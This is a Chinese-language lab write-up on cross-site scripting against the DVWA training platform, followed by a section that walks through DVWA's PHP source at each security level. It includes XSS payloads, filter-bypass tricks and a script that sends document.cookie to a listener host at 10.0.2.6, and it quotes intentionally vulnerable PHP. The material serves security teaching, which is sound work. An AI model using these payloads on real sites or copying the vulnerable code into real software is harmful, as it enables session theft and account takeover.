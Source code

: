 ## XSS-跨站脚本执行漏洞实验

---

> XSS又称CSS，全称Cross SiteScript，跨站脚本攻击，是Web程序中常见的漏洞，XSS属于被动式且用于客户端的攻击方式，所以容易被忽略其危害性。其原理是攻击者向有XSS漏洞的网站中输入(传入)恶意的HTML代码，当其它用户浏览该网站时，这段HTML代码会自动执行，从而达到攻击的目的。如，盗取用户Cookie、破坏页面结构、重定向到其它网站等。

## 实验环境

* kali虚拟机
* apache服务器
* DVWA（安全等级low）
* php+html+java
* 虚拟机配置如下图

<img src="image/1.png" />

## 实验过程

本次实验使用DVWA平台进行

### 反射型xss攻击

> 反射型XSS，也叫非持久型XSS，是指发生请求时，XSS代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含XSS代码，最后浏览器解析并执行。从概念上可以看出，反射型XSS代码是首先出现在URL中的，然后需要服务端解析，最后需要浏览器解析之后XSS代码才能够攻击。

---

查看源码，可以看到，在安全等级为低时，源码中没有对用户提交的数据做任何处理，只是简单判断如果提交的数据是否存在且不为空，就输出Hello+提交的内容

<img src="image/4.png" />

测试代码：

```java
<script> alert('xss')</script> //验证弹窗
<script>location='https://www.baidu.com'</script>  //重定向到百度
```

测试截图：

<img src="image/2.png" />

<img src="image/3.png" />

#### 获取cookie实验

* **实验原理**

>1. 黑客首先向服务器发送js脚本
>2. 服务器将含有js脚本的页面发给黑客
>3. 黑客将js脚本的页面的url发送给被攻击方
>4. 黑客获取被攻击方的cookie

首先测试构造获取cookie的JavaScript代码：`<script>alert(document.cookie)</script>`，如图

<img src="image/5.png" />

在本机/var/www/html中制作一个js脚本

```javascript
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```

<img src="image/6.png" />

在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试此行代码，可获取到用户cookie

```js
<script src='http://10.0.2.6/xxsec.js'></script>
```

<img src="image/7.png" />

### 存储型xss攻击

> 存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上XSS代码了。最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有XSS代码，就当做正常的HTML和JS解析执行。XSS攻击就发生了。

---

测试代码：

```html
<a href=http://10.0.2.6>登录</a>；//点击 ' 登录 '，直接跳转到http://10.0.2.6页面（自己搭建的服务器界面）
```

<img src="image/8.png" />

<img src="image/9.png" />

* 注：每次实验后都需重置数据库

#### 获取cookie实验

在本机/var/www/html中制作一个js脚本

```javascript
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```

<img src="image/6.png" />

在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试此行代码，可获取到用户cookie

```js
<script src='http://10.0.2.6/xxsec.js'></script>
```

<img src="image/10.png" />

<img src="image/11.png" />

## 防护手段

此处通过观察DVWA网站源码来观察如何一步一步进行安全防护

### 反射型xss攻击防护（Reflected XSS）

* 在安全等级为低时，源码中没有对用户提交的数据做任何处理，只是简单判断如果提交的数据是否存在且不为空，就输出Hello+提交的内容,极易被攻击

```js
low Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

* 使用str_replace函数将输入中的<script>替换成空，把script脚本当做字符串来处理，但仍可以将将<script>可以写成<Script>，大小写混淆绕过

例如

```js
<Script>alert(‘xss’)</script>
```

或者嵌入绕过，可以将script嵌入到<script>中

`<scr<script>ipt>`

```js
<scr<script>ipt>alert('XSS1')</script> 
```

```js
Medium Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

* 代码使用preg_replace() 函数用于正则表达式的搜索和替换，将script前后相关的内容都替换为空，使得双写绕过、大小写混淆绕过不再有效，即只要遇到与scipt有关的字符都进行替换为空，输入不在含有script；（正则表达式中i表示不区分大小写）

仅预防script代码插入，可以通过img、body等标签事件或者iframe等标签的src注入恶意的js代码

```js
<body οnlοad=alert('XSS2')>
<a href=http://10.0.2.6>登录</a>
```

```js
High Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

* 当安全级别为impossible，使用htmlspecialchars() 函数把预定义的字符转换为 HTML 实体，防止浏览器将其作为HTML元素（恶意代码）；不能实现反射型XSS攻击；

```js
Impossible Reflected XSS Source
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

### 存储型xss攻击防护（Stored XSS）

* 对输入的name参数和message参数并没有做XSS方面的过滤与检查，并且数据存储在数据库中，所以存在明显的存储型XSS漏洞；

```js
Low Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 由于对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码；对于name参数，使用str_replace函数将输入中的<script>删除，把script脚本当做字符串来处理，仍然存在存储型的XSS。

```js
<Script>alert(‘XSS’)</script>    #可以在name中将<script>可以写成<Script>，大小写混淆绕过
```

```js
Medium Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码；对于name参数，High级别的代码使用preg_replace() 函数用于正则表达式的搜索和替换，将script前后相关的内容都替换为空，使得双写绕过、大小写混淆绕过不再有效；（正则表达式中i表示不区分大小写）虽然在name参数中无法使用<script>标签注入XSS代码，但是可以通过img、body等标签事件或者iframe等标签的src注入恶意的js代码。

  ```html
  <body οnlοad=alert('XSS2')>
  <a href=http://10.0.2.6>登录</a>
  ```

```js


High Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 当安全级别为impossible时，对name、message参数均使用了htmlspecialchars函数进行编码，因此无法再通过name、message参数注入XSS代码，不能实现存储型XSS攻击。

```js
Impossible Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = stripslashes( $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $name = htmlspecialchars( $name );

    // Update database
    $data = $db->prepare( 'INSERT INTO guestbook ( comment, name ) VALUES ( :message, :name );' );
    $data->bindParam( ':message', $message, PDO::PARAM_STR );
    $data->bindParam( ':name', $name, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```



## 参考资料

1.http://xsspt.com/index.php?do=login

2.https://www.cnblogs.com/aeolian/p/11023238.html（[kali之DVWA]）

3.https://blog.csdn.net/weixin_43625577/article/details/89917893